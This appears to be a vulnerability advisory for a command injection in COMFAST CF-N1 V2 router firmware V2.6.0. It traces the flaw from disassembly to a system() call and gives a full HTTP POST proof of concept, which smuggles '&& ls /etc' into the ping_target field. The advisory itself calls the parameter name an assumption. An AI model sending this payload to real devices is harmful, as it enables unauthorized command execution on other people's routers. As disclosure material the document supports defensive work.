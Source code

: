 # COMFAST CF-N1 V2 V2.6.0 Command Injection in `ping_config`

PS：Using tools like qemu to set up the environment may be difficult; it is recommended to purchase a physical device.

## Overview

A command injection vulnerability exists in the COMFAST CF-N1 V2 (firmware V2.6.0) in the `ping_config` API (`/usr/bin/webmgnt`, function `sub_441EC4`). Attackers can inject arbitrary commands via a user-controlled parameter involved in ping configuration, enabling unauthorized execution of system commands, sensitive information access, or full device compromise.

![PoC 2 Result: Root Directory Listing](./imgs/0.png)

## Details



*   **Vendor**: COMFAST

*   **Vendor Website**: [http://www.comfast.cn/](http://www.comfast.cn/)

*   **Product**: COMFAST CF-N1 V2

*   **Firmware**: V2.6.0

*   **Firmware Download**: http://www.comfast.com.cn/index.php?m=content&c=index&a=show&catid=31&id=772

*   **Endpoint**: `/cgi-bin/mbox-config?method=SET&section=ping_config`

*   **Vulnerability**: Command Injection

*   **CVE ID**: Pending

*   **Impact**: Execute arbitrary system commands, read sensitive files, or take full control of the device.

*   **Reported by**: n0ps1ed (n0ps1edzz@gmail.com)

### Description

The vulnerability originates in the `sub_441EC4` function handling the `ping_config` section. Analysis of the disassembly shows that a user-controlled parameter is unsanitized and directly used in a command construction process.

Key code flow:



1.  The function parses user input via `blobmsg_parse_0`, extracting configuration parameters (including the vulnerable parameter).

2.  The extracted parameter (`v4`) is inserted into a command string using `sprintf_0(v8, &aBinPing4C4W2ST..., v4)`, where `aBinPing4C4W2ST` likely represents a ping command template (e.g., `ping -c 4 %s`).

3.  The constructed command is executed via `system_0(v8)`, with no input sanitization to block malicious command separators.

This allows attackers to inject arbitrary commands by adding delimiters (e.g., `&&`, `;`, `|`) to the vulnerable parameter, as the input is directly concatenated into the executed system command.

![PoC 2 Result: Root Directory Listing](./imgs/1.png)
![PoC 2 Result: Root Directory Listing](./imgs/2.png)

## Proof of Concept (PoC)

### PoC: List `/etc` Directory Contents



```
POST http://192.168.0.1/cgi-bin/mbox-config?method=SET\&section=ping\_config HTTP/1.1

Host: cflogin.cn

Content-Length: 124

Accept: application/json, text/javascript, \*/\*; q=0.01

X-Requested-With: XMLHttpRequest

User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/118.0.5993.90 Safari/537.36

Content-Type: application/json

Origin: http://cflogin.cn

Referer: http://cflogin.cn/guide/guide\_router.html

Accept-Encoding: gzip, deflate, br

Accept-Language: zh-CN,zh;q=0.9

Cookie: COMFAST\_SESSIONID=c0a800a0-ffffffc40f08ffffffaaffffff82fffffff0-6b8b4567

Connection: close

{"ping\_target":"8.8.8.8 && ls /etc > /www-comfast/ping\_test.txt","count":4,"timeout":2}
```


*   **Assumptions**: The vulnerable parameter is named `ping_target` (adjust if the actual parameter name differs based on further analysis).

*   **Steps**:

1.  Send the POST request using `curl`, Burp Suite, or similar tools.

2.  Access `http://cflogin.cn/ping_test.txt` to view the contents of the `/etc` directory.

*   **Result**: The output of `ls /etc` is written to `/www-comfast/ping_test.txt`, confirming arbitrary command execution.
*   
![PoC 2 Result: Root Directory Listing](./imgs/3.png)

